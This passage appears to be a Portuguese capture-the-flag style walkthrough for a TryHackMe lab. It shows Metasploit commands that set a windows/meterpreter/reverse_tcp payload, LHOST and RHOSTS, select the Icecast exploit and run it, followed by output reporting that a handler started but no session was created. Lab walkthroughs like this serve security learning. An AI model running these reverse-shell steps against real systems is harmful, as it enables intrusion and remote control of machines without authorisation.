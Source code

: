 ```
   6  exploit/windows/mssql/mssql_linkcrawler              2000-01-01       great      No     Microsoft SQL Server Database Link Crawling Command Execution
   7  exploit/windows/browser/persits_xupload_traversal    2009-09-29       excellent  No     Persits XUpload ActiveX MakeHttpRequest Directory Traversal
   8  exploit/linux/local/yum_package_manager_persistence  2003-12-17       excellent  No     Yum Package Manager Persistence
```

então, eu rodei o comando:

```
use NUMBER_NEXT_TO  exploit/multi/handler
```

NUMBER_NEXT_TO é o número que está a esquerda na coluna "#"

Agora vamos setar o payload usando o comando:

```
set PAYLOAD windows/meterpreter/reverse_tcp
```

Depois o comando:

```
set LHOST YOUR_IP_ON_TRYHACKME
```

usei

```
ip addr
```

para pegar o ip da máquina e depois:

```
use icecast
```

Depois disso, eu rodei o comando:

```
set RHOSTS 10.10.151.247
```

Após setar todas as variáveis, rodei o comando

```
exploit
or
run -j
```

```
[*] Started reverse TCP handler on 192.168.15.70:4444 
[*] Exploit completed, but no session was created.
```

Conferi usando:

```
jobs
```
